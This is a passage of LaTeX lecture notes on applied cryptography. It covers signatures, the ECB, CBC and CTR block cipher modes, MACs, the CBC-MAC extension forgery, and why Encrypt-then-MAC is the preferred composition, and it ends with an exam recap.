\textbf{verification public key}.
\end{defnbox}

\begin{goatbox}
Every goat carries two pairs: a padlock pair for secrets (others lock, I open) and a seal pair for
signatures (I seal, others check). A letter from Bob to Alice is locked with Alice's padlock and
sealed with Bob's seal: only Alice can read it, and she knows it is from Bob.
\end{goatbox}

\section{Problem II: Integrity}

\begin{defnbox}[title=Integrity]
Information cannot be \textbf{modified} by unauthorized parties. \\
Eve now \textbf{writes} on the channel: Bob sends ``Banana'', Eve tampers with the
ciphertext, and Alice decrypts ``Apple'' without noticing (recall the bit-flipping attack
on the OTP, Lecture 5).
\end{defnbox}

\begin{propbox}[title=Message integrity through digital signatures]
Digital signatures provide:
\begin{itemize}
  \item \textbf{Sender authenticity} --- the message comes from Bob;
  \item \textbf{Message integrity} --- the signature $S$ only verifies if the message $M$
        has not been modified;
  \item \textbf{Non-repudiation} --- Bob cannot later deny having signed $M$: only his
        secret key could produce $S$, and \emph{anyone} (a judge, a third party) can
        check it with his public key.
\end{itemize}
All three come from the same fact: nobody but the sender can produce a valid signature for a
message (an adversary who modifies the message invalidates the signature).
\end{propbox}

\subsection{Symmetric cryptography: block ciphers}

\begin{defnbox}[title=Block cipher]
And for symmetric cryptography? A block cipher encrypts a block with a pre-shared key:
$C_i = E_K(M_i)$, $M_i = D_K(C_i)$. The algorithms work on \textbf{blocks} the size of the
key, typically \textbf{128/256 bits}. \\
\textbf{Problem}: messages are longer than a block! $\Rightarrow$ requires iteration
$\Rightarrow$ block ciphers have a \textbf{mode of operation}. \\
The output block looks random, i.e.\ independent of the input; decryption is (generally) a
different algorithm from encryption.
\end{defnbox}

\begin{defnbox}[title={Mode 1: Electronic Code Book (ECB)}]
Straightforward scheme: split $M = M_1 M_2 M_3 M_4$ into blocks (each the size of the key)
and encrypt and decrypt \textbf{each block independently}:
\[
  C_i = E_K(M_i), \qquad M_i = D_K(C_i).
\]
\end{defnbox}

\begin{warnbox}[title=The problem with ECB]
If $M_i = M_j$ then $C_i = C_j$! Identical plaintext blocks give identical ciphertext
blocks: \textbf{large information leakage} due to the lack of randomness across blocks'
encryption (the same issue as substitution ciphers, but on whole blocks). Classic
illustration: an image encrypted with ECB still shows its outline.
\end{warnbox}

\begin{defnbox}[title={Mode 2: Cipher Block Chaining (CBC)}]
Add an \textbf{IV} and \textbf{propagate information across blocks} to introduce
randomness.
\begin{align*}
  \text{Encryption: } & C_0 = IV, \quad C_i = E_K(M_i \oplus C_{i-1}) \\
  \text{Decryption: } & C_0 = IV, \quad M_i = D_K(C_i) \oplus C_{i-1}
\end{align*}
\end{defnbox}

\begin{rembox}[title=Questions from the lecture]
\begin{itemize}
  \item What if the IV is incorrect? Is the full decryption wrong?
  \item Can you decrypt a block alone? What do you need?
\end{itemize}
(Hint: look at which values appear in the decryption formula of $M_i$.)
\end{rembox}

\begin{algbox}[title=Answers]
\begin{itemize}
  \item \textbf{Wrong IV}: only the \textbf{first block} is corrupted. $M_1 = D_K(C_1) \oplus
        IV$ uses the IV, but every $M_i$ with $i \ge 2$ only depends on the ciphertext blocks
        $C_i$ and $C_{i-1}$.
  \item \textbf{One block alone}: impossible without the \textbf{previous ciphertext block}
        $C_{i-1}$ (the IV for the first block), since $M_i = D_K(C_i) \oplus C_{i-1}$; but that
        is all you need (no need to decrypt the blocks before).
\end{itemize}
Why it hides repetitions: each block is XOR-ed with the previous (random-looking) ciphertext
block before encryption, so equal plaintext blocks give different ciphertext blocks; with a new
IV per message, even the same message encrypts differently (like a one-block one-time pad). Reuse
the IV with the same key and plaintext, and the ciphertext repeats.
\end{algbox}

\begin{defnbox}[title={Mode 3: Counter mode (CTR)}]
Use an \textbf{increasing nonce} to add randomness \textbf{without dependencies between
blocks}. A \textbf{nonce} is a random number used only \textbf{once}.
\[
  \text{Encryption: } C_i = E_K(\mathit{Nonce} + i) \oplus M_i;
  \qquad
  \text{Decryption: } M_i = E_K(\mathit{Nonce} + i) \oplus C_i .
\]
\end{defnbox}

\begin{rembox}[title=CTR turns a block cipher into a stream cipher]
$E_K(\mathit{Nonce}+1), E_K(\mathit{Nonce}+2), \ldots$ is a pseudo-random \textbf{key
stream} XOR-ed with the message, exactly like a stream cipher (Lecture 5). Hence
decryption only needs $E_K$ (no $D_K$, answering the slide's question ``do we need a
decryption algorithm?''), blocks can be processed \textbf{in parallel}, and --- as with
any pad --- a nonce must \textbf{never be reused} with the same key: the same nonce gives the
same key stream, i.e.\ a reused one-time pad.
\end{rembox}

\begin{propbox}[title=Block ciphers: strengths and weaknesses]
\textbf{Strengths}:
\begin{itemize}
  \item \textbf{High diffusion} --- information from one plaintext symbol is diffused
        into several ciphertext symbols;
  \item \textbf{Immunity to tampering} --- difficult to insert symbols without detection.
\end{itemize}
\textbf{Weaknesses}:
\begin{itemize}
  \item \textbf{Slow} --- an entire block must be accumulated before encryption /
        decryption can begin;
  \item \textbf{Error propagation} --- in some modes of operation errors affect several
        bits/blocks.
\end{itemize}
Individual modes may not fall in these categories and may offer a different trade-off.
It is the opposite profile of stream ciphers (Lecture 5). Chaining entangles blocks: every bit
affects several blocks (diffusion), and an insertion or modification propagates and makes the
decryption meaningless (tampering shows); the same chaining propagates errors (CBC).
\end{propbox}

\begin{keybox}[title=Modes of operation: summary]
\begin{itemize}
  \item \textbf{ECB} --- directly encrypt and decrypt single blocks. Large information
        leakage due to lack of randomness across blocks' encryption.
  \item \textbf{CBC} --- avoids ECB problems by using previous blocks to add randomness to
        every encryption. Propagates errors and prevents single-block decryption.
  \item \textbf{CTR} --- uses an increasing ``nonce'' to introduce randomness across
        blocks' encryptions. Enables parallel encryption and decryption.
\end{itemize}
\end{keybox}

\begin{goatbox}
A block cipher locks fixed-size slices of the message. ECB locks each slice the same way, so two
identical slices give two identical locked slices: a picture still shows its outline. CBC mixes
each slice with the previous locked slice first, so repeats vanish (but you need the previous
slice to open one). CTR locks a counter instead of the message and uses the result as coin flips:
a stream cipher made from a block cipher, parallel, and never reuse the counter.
\end{goatbox}

\subsection{Integrity from symmetric cryptography: MACs}

\begin{defnbox}[title=Message Authentication Code (MAC)]
Takes a \textbf{fixed (short) size key} $K$ and a message $M$, and outputs a short
$MAC_K(M)$. It is \textbf{hard to generate} a pair $\{M, MAC_K(M)\}$ \textbf{without
knowing $K$}. Bob sends $\{M; MAC_K(M)\}$ using the pre-shared key $K$. Two properties:
\begin{enumerate}
  \item $M$ cannot be tampered with;
  \item the message comes from Bob/Alice (whoever holds $K$).
\end{enumerate}
$\Rightarrow$ \textbf{Mutual authentication BUT no sender authenticity towards a 3rd
party.} \\
To verify, Alice recomputes $MAC_K(M)$ from the received $M$ with her key and compares it with
the received tag: equal $\Rightarrow$ not modified, and written by whoever holds $K$, i.e.\ by Bob
(she did not write it herself).
\end{defnbox}

\begin{defnbox}[title=Repudiation]
With a MAC, both Alice and Bob hold the same key $K$, so \textbf{both} can produce
$MAC_K(M)$. Given $\{M = \text{``I don't like Charlie''}; MAC_K(M)\}$, Bob says ``it was
Alice'' and Alice says ``it was Bob'': a third party (Charlie) \textbf{cannot tell} who
wrote it.
\end{defnbox}

\begin{keybox}[title=MAC vs.\ digital signature]
\begin{center}
\begin{tabular}{l|c|c}
                         & \textbf{MAC}       & \textbf{Signature}  \\ \hline
Keys                     & one shared secret  & key pair $(SK, PK)$ \\
Integrity                & yes                & yes                 \\
Authenticity (to peer)   & yes                & yes                 \\
Convince a third party   & no                 & yes                 \\
Non-repudiation          & no                 & yes                 \\
Speed                    & fast               & slow
\end{tabular}
\end{center}
\end{keybox}

\begin{defnbox}[title=CBC-MAC]
Turning a block cipher into a MAC:
\[
  C_0 = 0 \ \text{[any fixed IV]}, \qquad C_i = E_K(M_i \oplus C_{i-1}), \qquad
  MAC_K(M_1 \ldots M_n) = C_n .
\]
Differences with respect to CBC encryption:
\begin{itemize}
  \item CBC-MAC is \textbf{deterministic} (fixed IV);
  \item only the \textbf{last block} is output.
\end{itemize}
\textbf{Limitation}: only secure if the length of message $M$ is known (fixed).
\end{defnbox}

\begin{exbox}[title={Why fixed length: the extension attack}]
Since the IV is fixed, the result for one message is always the same, and the last block looks
random (it reveals nothing about $M$). But if lengths are not fixed: from $T = MAC_K(M)$ and $T' =
MAC_K(M')$ for a one-block $M'$, the tag $T'$ is also valid for the longer message $M \,\|\, (M'
\oplus T)$: after processing $M$ the chain value is $T$, and $E_K((M' \oplus T) \oplus T) =
E_K(M') = T'$. Eve forged a MAC without the key.
\end{exbox}

\begin{rembox}[title=Why a fixed IV and why only the last block?]
A MAC must be \textbf{recomputable} by the verifier: with a random IV, Alice could not
recompute the same tag (and an attacker could adjust the IV to fix the first block).
Since every block is chained into the next, the last block depends on the whole message:
it is a short ``keyed fingerprint'' of $M$.
\end{rembox}

\begin{goatbox}
A MAC is a secret stamp that Alice and Bob share. Bob stamps his letter; Alice re-stamps it
herself and checks the two stamps match: nobody without the stamp could have made it, and nobody
changed the letter. But since \emph{both} own the same stamp, a judge cannot tell which of the two
stamped it: no proof to a third party, unlike a signature (one seal, one owner).
\end{goatbox}

\subsection{All together: confidentiality and integrity (symmetric)}

\begin{defnbox}[title=Encrypt-and-MAC]
Send $E_K(M) \,\|\, MAC_K(M)$: encrypt the plaintext and MAC the \textbf{plaintext},
in parallel.
\begin{itemize}
  \item[$\times$] \textbf{No integrity on the ciphertext} $\to$ the cipher can be
        attacked; need to decrypt (expensive) to know if valid, since the MAC is on the
        plaintext.
  \item[$\checkmark$] Integrity of the plaintext can be verified.
  \item[$\times$] \textbf{May reveal information about the plaintext} $\to$ repeated
        messages give repeated MACs (the IV of the MAC is fixed; can be solved with a
        counter).
\end{itemize}
\end{defnbox}

\begin{defnbox}[title=MAC-then-Encrypt]
Send $E_K\big(M \,\|\, MAC_K(M)\big)$: MAC the plaintext, then encrypt plaintext and MAC
together.
\begin{itemize}
  \item[$\times$] \textbf{No integrity of the ciphertext}: (in theory) possible to change
        the ciphertext and still have a valid MAC; need to decrypt to know if valid.
  \item[$\checkmark$] Integrity of the plaintext can be verified.
  \item[$\checkmark$] No information on the plaintext either, since it is encrypted (the
        adversary only sees an encrypted blob, not the MAC).
\end{itemize}
\end{defnbox}

\begin{defnbox}[title=Encrypt-then-MAC]
Send $C \,\|\, MAC_K(C)$ with $C = E_K(M)$: encrypt first, then MAC the
\textbf{ciphertext}.
\begin{itemize}
  \item[$\checkmark$] \textbf{Integrity of the ciphertext} $\to$ ensures you only read
        valid messages! The cipher cannot be attacked.
  \item[$\checkmark$] Integrity of the plaintext can be verified.
  \item[$\checkmark$] No information on the plaintext either, since it is encrypted.
\end{itemize}
\end{defnbox}

\begin{keybox}[title=Which composition to use?]
\begin{center}
\begin{tabular}{l|c|c|c}
                     & \textbf{E\&M} & \textbf{MtE} & \textbf{EtM} \\ \hline
Ciphertext integrity & $\times$      & $\times$     & $\checkmark$ \\
Plaintext integrity  & $\checkmark$  & $\checkmark$ & $\checkmark$ \\
Hides the plaintext  & $\times$      & $\checkmark$ & $\checkmark$
\end{tabular}
\end{center}
\textbf{Encrypt-then-MAC} wins: the receiver checks the MAC \emph{before} decrypting, so
forged ciphertexts are rejected without ever being fed to the decryption algorithm
(fail-safe default, Lecture 2). Use separate keys for encryption and MAC.
\end{keybox}

\begin{rembox}[title=Further reading]
Bellare \& Namprempre, \emph{Authenticated encryption: relations among notions and analysis of
the generic composition paradigm} (2000); Bellare, Kohno \& Namprempre, \emph{Breaking and
provably repairing the SSH authenticated encryption scheme} (2004): SSH used an
Encrypt-and-MAC variant, and it was attackable.
\end{rembox}

\begin{goatbox}
To send a letter both secret and untouched: lock it, \emph{then} stamp the locked box. Alice
checks the stamp on the outside first; a box with a wrong stamp goes straight to the bin,
unopened. Stamping the letter before locking (MAC-then-Encrypt) or stamping the letter next to the
box (Encrypt-and-MAC) forces Alice to open suspicious boxes, and the second even shows when the
same letter is sent twice.
\end{goatbox}

\begin{keybox}[title={Summary: what we have learned about applied cryptography}]
\begin{itemize}
  \item \textbf{Symmetric cryptography}
        \begin{itemize}
          \item Confidentiality: stream ciphers, block ciphers (\textbf{modes of
                operation}!).
          \item Integrity / authentication: \textbf{Message Authentication Codes (MACs)}.
        \end{itemize}
  \item \textbf{Asymmetric cryptography}
        \begin{itemize}
          \item Confidentiality: \textbf{encryption} with the receiver's public key.
          \item Integrity / authentication: \textbf{digital signatures} (+
                non-repudiation).
        \end{itemize}
  \item \textbf{Hash functions}
        \begin{itemize}
          \item Three security properties (pre-image, second pre-image, collision).
          \item Support digital signatures + other functions.
        \end{itemize}
\end{itemize}
\end{keybox}

\begin{recapbox}[title={Exam-ready recap --- Lecture 6: Applied cryptography II}]
Lecture 5 gave confidentiality; this one adds \textbf{authenticity} (who wrote it?) and
\textbf{integrity} (was it changed?). Assumption everywhere: Eve sees the channel, not the keys.
\begin{itemize}
  \item \textbf{Public-key crypto}: key pair $(SK, PK)$, public keys in a \textbf{PKI}.
        \textbf{Encryption}: $C = E_{PK_A}(M)$, only $SK_A$ decrypts (RSA-OAEP).
        \textbf{Signature}: $S = \mathrm{Sign}_{SK_B}(M)$, anyone verifies with $PK_B$ (DSA);
        unforgeable without $SK$. Encrypt with the receiver's PK; sign with your own SK.
  \item Public-key operations are \textbf{slow} $\Rightarrow$ \textbf{sign $h(M)$}.
        \textbf{Hash}: any length $\to$ fixed, unkeyed, deterministic. Pre-image (cannot
        invert), second pre-image (given $M$, no $M' \ne M$ with same hash), collision (no pair
        at all; strongest; birthday $\Rightarrow$ $n/2$ bits). Signatures need second pre-image +
        collision resistance, not pre-image. MD5, SHA-1 broken; SHA-2, SHA-3 OK.
  \item Full asymmetric: \textbf{two key pairs} per user (encryption, signing): send
        $E_{PK_A}(M), \mathrm{Sign}_{SK_B}(h(M))$. Signatures give \textbf{sender authenticity,
        integrity, non-repudiation}.
  \item \textbf{Block ciphers} (AES, 128/256-bit blocks) need a \textbf{mode}: \textbf{ECB}
        ($C_i = E_K(M_i)$: equal blocks leak), \textbf{CBC} ($C_i = E_K(M_i \oplus C_{i-1})$,
        $C_0 = IV$: wrong IV breaks only block 1; a block needs $C_{i-1}$; errors propagate),
        \textbf{CTR} ($C_i = E_K(\mathit{Nonce}+i) \oplus M_i$: a stream cipher, parallel, no
        $D_K$ needed, never reuse the nonce). Block vs.\ stream: diffusion and tamper
        resistance vs.\ speed and no error propagation.
  \item \textbf{MAC}: shared key, tag hard to forge; integrity + authentication between the two
        parties, \textbf{no non-repudiation} (both can compute it). \textbf{CBC-MAC}: fixed IV,
        output last block; deterministic; only secure for \textbf{fixed-length} messages
        (extension attack).
  \item \textbf{Combining}: Encrypt-and-MAC (MAC of plaintext beside: leaks repeats, must
        decrypt to check), MAC-then-Encrypt (must decrypt to check), \textbf{Encrypt-then-MAC}
        (MAC of the ciphertext: check before decrypting, reject forgeries) $\Leftarrow$ use it,
        with separate keys.
\end{itemize}
\begin{center}
\small
\begin{tabular}{l|c|c}
                      & \textbf{Confidentiality}         & \textbf{Integrity / authentication} \\ \hline
\textbf{Symmetric}    & stream ciphers, block ciphers + mode & MACs (no non-repudiation) \\
\textbf{Asymmetric}   & public-key encryption            & digital signatures (+ non-repudiation) \\
\textbf{Hash}         & ---                              & supports signatures, HMAC, logs, \ldots
\end{tabular}
\end{center}
\textbf{How it builds on what came before}: Lecture 5 ended with two holes: the one-time pad and
stream ciphers are \textbf{malleable} (no integrity), and Diffie-Hellman falls to a
\textbf{man in the middle} (no authenticity). Signatures and the PKI close the second one (a DH
public value \emph{is} a public key), MACs and signatures the first. The new tools reuse old
ideas: CBC and CTR fix ECB's leak exactly as the one-time pad fixed the substitution cipher's
(never encrypt equal things equally; CTR \emph{is} a stream cipher), Encrypt-then-MAC is
\textbf{fail-safe defaults} (reject before processing), the need for authentic public keys is
the \textbf{integrity} that BIBA said PKI depends on (Lecture 4), non-repudiation is the property
listed in Lecture 1, and ``don't design your own'' is \textbf{economy of mechanism} and
\textbf{open design} (Lecture 2).
\end{recapbox}


\end{document}
